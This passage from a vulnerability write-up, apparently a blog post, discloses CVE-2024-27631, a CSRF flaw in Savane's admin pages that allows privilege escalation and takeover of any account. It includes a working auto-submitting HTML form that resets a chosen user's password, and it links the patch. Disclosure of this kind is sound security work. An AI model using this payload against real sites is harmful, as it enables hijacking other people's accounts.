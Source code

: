 ![](https://cdn-images-1.medium.com/max/800/1*Q3BI1WCSQj8kJmb7iCEh4g.png)
Additionally, attempting to change the password required the previous user password to be known, which provided no advantage over attempting to brute-force their password to begin with.

![](https://cdn-images-1.medium.com/max/800/1*IcA_HpVxf3LP9FlM7miVUw.png)
*http://172.17.0.2:7890/my/admin/change.php?item=password*

With these precautions in place, it was evident that further investigation was required.

CVE-2024–27631 — CSRF (CWE-**352)**
-----------------------------------

I suspected that there may be additional critical vulnerabilities without CSRF protection. Specifically, I began to look inside of admin folders in the source code, eventually finding `siteadmin/usergroup.php`, which enabled superusers to edit of any user’s profile.

![](https://cdn-images-1.medium.com/max/800/1*_stvfUY2HtkR9wda-TgZQQ.png)
*Example of /siteadmin/usergroup.php to edit the account of user 60079*

This page contained three unprotected functionalities of interest. The first was a function that can be used to grant a user admin flags, leading to privilege escalation without account takeover.

![](https://cdn-images-1.medium.com/max/800/1*TDquE7S3UnTHXilR4TYrVA.png)
*frontend/php/siteadmin/usergroup.php*

The second and third functionalities could be leveraged for account takeover by either changing the email address of a user’s account:

![](https://cdn-images-1.medium.com/max/800/1*HvHtu0HaoxRLzojL3vjfPQ.png)
*frontend/php/siteadmin/usergroup.php*

Or, changing the password of any user’s account.

![](https://cdn-images-1.medium.com/max/800/1*-N45bZ7BrPdguKZWsQs0cw.png)
*frontend/php/siteadmin/user_changepw.php*

Given these promising leads, I began to develop a Proof-of-Concept (PoC) to demonstrate that the vulnerability existed in practice. (I have found that with static analysis, sometimes a detail in the code can be overlooked that actually mitigates the vulnerability.) The following is what I came up with and successfully tested:


```
<!-- The efficacy of this payload is browser-dependent -->  
<form id="autosubmit" action="http://<savane\_instance>/siteadmin/user\_changepw.php" method="POST">  
  
 <input name="form\_pw" type="hidden" value="Password1!" />  
 <input name="form\_pw2" type="hidden" value="Password1!" />  
 <input name="user\_id" type="hidden" value="<user\_id>" />  
 <input name="update" type="hidden" value="Update" />  
 <input type="submit" value="Submit Request" />  
</form>  
  
<script>  
 document.getElementById("autosubmit").submit();  
</script>
```
Thus, I discovered CVE-2024–27631! A patch was implemented in [this commit](https://git.savannah.nongnu.org/cgit/administration/savane.git/commit/?h=i18n&id=d3962d3feb75467489b869204db98e2dffaaaf09).
